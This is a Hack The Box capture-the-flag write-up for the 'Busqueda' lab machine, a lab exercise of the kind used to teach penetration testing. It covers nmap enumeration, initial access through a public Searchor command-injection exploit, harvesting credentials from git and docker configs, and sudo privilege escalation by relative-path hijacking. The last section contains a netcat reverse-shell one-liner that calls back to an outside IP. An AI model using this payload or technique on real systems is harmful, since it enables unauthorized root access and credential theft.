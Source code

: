 ```yaml
---
title: "Busqueda"
date: 2024-04-17
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "busqueda", "htb walkthrough", "hackthebox", "writeup"]
---
```


# Busqueda

# Busqueda

## Summary
# Credentials
| Username      | Password            | Hash | Source |
| ------------- | ------------------- | ---- | ------ |
| svc           | jh1usoih2bkjaspwe92 |      |        |
| gitea         | jI86kGUuj87guWr3RyF |      |        |
| administrator | yuiu1hoiu4i5ho1uh   |      |        |
|               |                     |      |        |
# Notes
"Env":
MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF
MYSQL_USER=gitea
MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh
MYSQL_DATABASE=gitea
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
"GOSU_VERSION=1.14"
"MYSQL_MAJOR=8.0"
"MYSQL_VERSION=8.0.31-1.el8"
"MYSQL_SHELL_VERSION=8.0.31-1.el8"]
# Enumeration
- Footer contains service version number.
# Initial Access
- Gain shell as `svc` user by using a public exploit.
# Privilege Escalation
- `/var/www` contains `.git`
	- `config` file contains cody user credentials for `gitea.searcher.htb`
		- add the new domain to `/etc/hosts`
		- sign in with the obtained credentials 
- SSH as `svc` user with cody user's passsword.
	- `sudo -l` svc user has sudo privileges to run some python scripts
	- Following the official documentation for command formats, I was able to obtain more credentials.
	- Path abuse one of the python scripts. 
		- create a new file with reverse shell payload in another directory `/tmp`.
		- name it the same 
		- execute the file in the `tmp` using `sudo`.

# Nmap
# TCP
```sh
└─$ nmap -sC -sV 10.10.11.208 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 10:31 AEST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.98% done; ETC: 10:31 (0:00:08 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# 80-HTTP
# Screenshots
![screenshot](/assets/images/busqueda1.png)

![screenshot](/assets/images/busqueda2.png)

![screenshot](/assets/images/busqueda3.png)


# Initial Access
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Shell as svc
![screenshot](/assets/images/busqueda4.png)

![screenshot](/assets/images/busqueda5.png)

```text
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

![screenshot](/assets/images/busqueda6.png)

```text
0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator@gitea.searcher.htb
```

add gitea.searcher.htb to `/etc/hosts`

![screenshot](/assets/images/busqueda7.png)

sign in as `cody : jh1usoih2bkjaspwe92`

![screenshot](/assets/images/busqueda8.png)

ssh as `svc :jh1usoih2bkjaspwe92 `

# Privilege Escalation

![screenshot](/assets/images/busqueda10.png)


![screenshot](/assets/images/busqueda11.png)

![screenshot](/assets/images/busqueda12.png)

https://docs.docker.com/reference/cli/docker/inspect/

![screenshot](/assets/images/busqueda13.png)

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```


![screenshot](/assets/images/busqueda14.png)

![screenshot](/assets/images/busqueda15.png)

We now attempt to leverage the relative reference to `full-checkup.sh` by executing the `system-checkup` script from another directory that will contain our own malicious `full-checkup.sh` script.

```sh
# create a shell file and insert a reverse shell payload into it
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f" > /tmp/full-checkup.sh
# make it executable
chmod +x /tmp/full-checkup.sh
# execute the shell
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![screenshot](/assets/images/busqueda16.png)

